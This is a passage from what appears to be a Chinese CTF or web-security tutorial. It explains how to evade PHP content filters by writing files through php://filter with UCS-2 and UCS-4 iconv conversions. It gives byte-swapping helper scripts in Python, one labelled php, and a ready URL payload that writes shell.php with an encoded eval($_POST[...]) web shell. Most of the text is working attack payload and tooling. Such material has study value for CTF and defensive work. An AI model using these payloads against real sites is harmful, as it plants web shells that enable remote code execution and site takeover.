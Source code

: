 这里介绍几种。

#### （1）ucs-2

对目标字符串进行2位一反转，也就是说，字符串的数目得是偶数。不然就会被截断。可以去这个里面去看看工具，很多很偏门的工具，虽然我没找到在线的，但是我让chatgpt生成了一个脚本。

[https://onlinetexttools.com/convert-unicode-to-ucs2](https://onlinetexttools.com/convert-unicode-to-ucs2)

```python
def swap_pairs(text):
    # 对输入字符串中的每两个字符进行位置互换
    swapped_text = ""
    for i in range(0, len(text), 2):
        # 逐对提取字符并交换位置
        pair = text[i:i+2]
        swapped_pair = pair[1] + pair[0]  # 交换位置
        swapped_text += swapped_pair
    return swapped_text

def main():
    text = input("Enter the text to encode using UCS-2: ")
    if len(text) % 2 == 0:  # 检查字符串长度是否为偶数
        swapped_text = swap_pairs(text)
        print("UCS-2 encoded text:", swapped_text)
    else:
        print("Input string length must be even. Current character count:", len(text))

if __name__ == "__main__":
    main()

```

这个时候用到的过滤器是`convert.iconv.UCS-2LE.UCS-2BE` ,

姿势：

```url
file=php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=shell.php&content=?<hp pe@av(l_$OPTSx[)]?;;>
```

#### (2)ucs-4

对目标字符串进行4位一反转，也就是说，字符串的数目得是4的倍数。不然就会被截断。脚本给上

```php
def swap_quads(text):
    # 对输入字符串中的每四个字符进行位置翻转
    swapped_text = ""
    for i in range(0, len(text), 4):
        # 逐四个提取字符并翻转位置
        quad = text[i:i+4]
        swapped_quad = quad[::-1]  # 翻转位置
        swapped_text += swapped_quad
    return swapped_text

def main():
    text = input("Enter the text to encode using UCS-4: ")
    if len(text) % 4 == 0:  # 检查字符串长度是否为4的倍数
        swapped_text = swap_quads(text)
        print("UCS-4 encoded text:", swapped_text)
    else:
        print("Input string length must be a multiple of 4. Current character count:", len(text))

if __name__ == "__main__":
    main()

```